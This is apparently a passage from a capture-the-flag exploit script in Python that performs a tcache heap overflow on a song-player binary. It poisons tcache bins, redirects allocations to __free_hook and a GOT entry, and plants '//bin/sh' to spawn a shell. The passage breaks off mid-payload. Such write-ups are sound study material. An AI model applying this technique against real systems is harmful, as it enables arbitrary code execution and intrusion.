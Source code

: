 ```python
play_song("32") # I: 0x3c chunk
play_song("37") # J: 0x20 chunk

# Allocate chunks for second overflow
play_song("38") # K: 0x20 chunk, used by song #3 to overwrite L 
play_song("34") # L: 0x3c chunk, overwritten w/ ptr to __free_hook

play_song("43") # 0x20, buffer for top chunk

# Fill the 0x20 tcache bin 
remove_song("13") # E
remove_song("12") # B (overwritten by A)
remove_song("11") # A (overflowed)

# Fill the 0x310 tcache bin 
remove_song("23") # F
remove_song("22") # D
remove_song("21") # C (overwritten by A)

# Fill the 0x3c0 tcache bin 
remove_song("31") # G
remove_song("32") # I
remove_song("34") # L (overwritten by K)

# tcache bin 0x20  -> A -> B -> E
# tcache bin 0x310 -> C -> D -> F
# tcache bin 0x3c0 -> L -> I -> G

""" First Heap Overflow """

play_song("44") # Reads from STDIN
p.sendline("-1") # Size of "lyrics", gets A from tcache
chunkA = p64(0x00) * 2 # Fills chunk A nullbytes, p64() will send a little endian bytes object by default 
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) + p64(0x00) # Overwrites chunk B tcache ptr w/ addr of song[0].fd
chunkZ = p64(0x00) + p64(0x20) + b"//bin/sh" + p64(0x00) # Overwrites chunk Z data w/ ""/bin/sh"" and null bytes, 2 '/' at the front to make it a clean 8 bytes (the b makes it a bytes object so python3 will concatenate it to the p64() bytes objects)
chunkC = p64(0x00) + p64(0x311) + p64(0x4040c8) # Overwrites chunk C tcache ptr w/ addr of song[1].lyrics
p.send(chunkA + chunkB + chunkZ + chunkC) # Sends payload

# tcache bin 0x20  -> B -> 0x404078 (songs[0].fd)
# tcache bin 0x310 -> C -> 0x4040c8 (songs[1].lyrics)
# tcache bin 0x3c0 -> L -> I -> G

play_song("17") # Pop B from 0x20 tcache bin
play_song("18") # Pop 0x404078 from 0x20 tcache bin and memsets songs[0].fd to 0 
play_song("27") # Pop C from 0x310 tcache bin

# tcache bin 0x20  -> corrupted 
# tcache bin 0x310 -> C -> 0x404c8 (songs[1].lyrics)
# tcache bin 0x3c0 -> L -> I -> G

""" Write To Songs Array """

play_song("1") # Read from STDIN, songs[0] = song #1
p.sendline("767") # Give lyrics "size" of 767 (will be given a 0x310 chunk), get 0x04040c8 from tcache
strtok_got_addr = p64(0x403fc8) # addr of .got:strtok_ptr
fake_song = p64(0) * 3 + p64(0) + p64(0x404098) + p64(0)  + p64(0) # song = file_name + fd + album_name + song_name + lyrics
```